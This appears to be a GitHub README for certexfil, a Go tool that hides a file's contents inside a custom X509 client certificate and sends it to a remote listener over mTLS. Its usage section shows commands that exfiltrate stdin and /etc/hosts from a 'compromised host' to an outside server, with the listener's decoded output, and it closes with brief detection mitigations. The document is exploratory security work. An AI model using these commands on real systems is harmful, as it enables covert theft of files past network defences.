 # Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

If you new to playing with certs, you will find the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has three modes: CA generation, client and listener:

* You can use --ca to bootstrap and set a CA to create certificates (and authenticate them later)
* You can use --payload embed a payload (file) into a new client certificate then use mTLS against a listener service
* You can use --listen to start aservice using a certificate to accept valid mTLS clients and retrieve the embedded payload

## Usage

### Create CA + prepare your listener on your remote server

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Now make sure your have binary certexfil and the new ./CERTS directory on your remote server. Then, run the mTLS listener:

```
remoteserver$ ./certexfil --listen
```

### Client or (simulated) compromised host

Passing an output as payload:

```
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

Passing a file as payload:
```
06:52:14 jma@wintermute Go-Workspace → certexfil --host remote.server.com --payload /etc/hosts
2019/05/31 18:52:23 [*] Reading from file..
2019/05/31 18:52:24 [D] Payload (raw)  --> 127.0.0.1	...(225 bytes)
2019/05/31 18:52:24 [D] Payload (Prepare()) --> �...		(173 bytes)
2019/05/31 18:52:24 [*] Generated custom cert with payload
Oo

```


### As seen on the listener

```
○ → ./certexfil --listen
2019/05/31 22:51:01 [*] Starting listener..
2019/05/31 22:51:7 [*] Payload received: H4sIAAAAAAAC/yo3MChRABGAAAAA//8t0rpUCQAAAA==
2019/05/31 22:51:07 [*] Payload decoded: w00t w00t

2019/05/31 22:52:24 [*] Payload received: H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/31 22:52:24 [*] Payload decoded: 127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Mitigations

* Fresh certificates ? you should look for those
* Large payload vs average certificates from same client (a decent firewall or BroIDS should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* ~~Set a DEBUG option, clean code~~
* ~~merge client/listener in one~~
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy
